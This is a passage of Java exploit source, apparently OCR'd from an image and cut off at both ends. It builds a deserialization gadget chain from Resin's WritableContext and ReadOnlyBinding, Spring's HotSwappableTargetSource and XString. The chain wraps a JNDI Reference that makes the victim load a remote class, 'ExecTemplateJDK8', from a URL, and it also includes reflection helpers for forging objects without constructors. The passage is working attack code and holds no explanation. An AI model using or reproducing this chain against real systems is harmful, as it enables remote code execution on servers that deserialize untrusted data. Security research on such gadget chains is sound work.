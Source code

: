 ```java
            return field;
        }
        catch ( NoSuchFieldException e ) {
            if
( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }

    public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static <T> T createWithoutConstructor ( Class<T> classToInstantiate )
            throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        return createWithConstructor(classToInstantiate, Object.class, new Class[0], new Object[0]);
    }

    @SuppressWarnings ( {
            "unchecked"
    } )
    public static <T> T createWithConstructor ( Class<T> classToInstantiate, Class<? super T> constructorClass, Class<?>[] consArgTypes,
                                                Object[] consArgs ) throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        Constructor<? super T> objCons = constructorClass.getDeclaredConstructor(consArgTypes);
        objCons.setAccessible(true);
        Constructor<?> sc = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(classToInstantiate, objCons);
        sc.setAccessible(true);
        return (T) sc.newInstance(consArgs);
    }

    public static void main(String[] args) throws Exception {

        String remoteUrl = "http://127.0.0.1:8180/";
        String remoteClass = "ExecTemplateJDK8";

        Context ctx = createWithoutConstructor(WritableContext.class);
        Reference ref = new Reference("foo", remoteClass, remoteUrl);
        ContextUtil.ReadOnlyBinding binding = new ContextUtil.ReadOnlyBinding("foo", ref, ctx);

        HotSwappableTargetSource hotSwappableTargetSource1 = new HotSwappableTargetSource(binding);
        HotSwappableTargetSource hotSwappableTargetSource2 = new HotSwappableTargetSource(new XString("h3rmesk1t"));


        HashMap<Object, Object> hashMap = new HashMap<>();
        setFieldValue(hashMap, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
```